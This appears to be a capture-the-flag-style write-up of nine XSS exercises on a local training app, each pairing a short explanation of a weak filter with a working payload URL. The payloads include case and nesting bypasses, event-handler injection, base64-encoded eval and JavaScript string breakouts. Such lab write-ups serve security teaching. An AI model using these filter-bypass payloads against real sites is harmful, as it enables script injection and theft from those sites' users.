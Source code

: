 # XSS (Cross Site Scripting)

There are nine XSS examples.

## 1

This example just takes the input directly from the URL and inserts it into the page.

`http://localhost:31337/xss/example1.php?name=<script>alert(1);</script>`

## 2

This article attempts filtering by removing every instance of `<script>` and `</script>` from the input.

`http://localhost:31337/xss/example2.php?name=<SCRIPT>alert(1);</SCRIPT>`

## 3

Now it's case insensitive. However, it only does one pass, leading to the following bypass:

`http://localhost:31337/xss/example3.php?name=<scr<script>ipt>alert(1);</scr</script>ipt>`

## 4

They're catching on now, and blocking all script tags. However, there are other ways to execute scripts on the page.

`http://localhost:31337/xss/example4.php?name=<img src="slothlife" onerror="alert(1);">`

## 5

In this example they've simply blocked the "alert" keyword. Nothing a little base64 + eval can't get around.

`http://localhost:31337/xss/example5.php?name=<script>eval(atob('YWxlcnQoMSk7'));</script>`

## 6

This spits your input out in the middle of a javascript string declaration. To execute some of our own javascript, we just have to end the string declaration and insert our code. The comment on the end is to avoid any syntax errors.

`http://localhost:31337/xss/example6.php?name=hello%22;%20alert%281%29;//`

## 7

This is the same as 6, but with ' instead of ", and you have to deal with `htmlentities()`.

`http://localhost:31337/xss/example7.php?name=hello%27;%20alert%281%29;//`

## 8

This example presents a form, which is actually a decoy. You may notice from the code that the form action is filled in from the `$_SERVER["PHP_SELF"]` variable, which is just a reflection of the path. We can insert our code using this as our vector.

`http://localhost:31337/xss/example8.php/"><script>alert(1)</script>`

## 9

Similar to the last attack, just using the hash as the vector rather than a standard parameter.

`http://localhost:31337/xss/example9.php#%3Cscript%3Ealert%281%29%3C/script%3E`
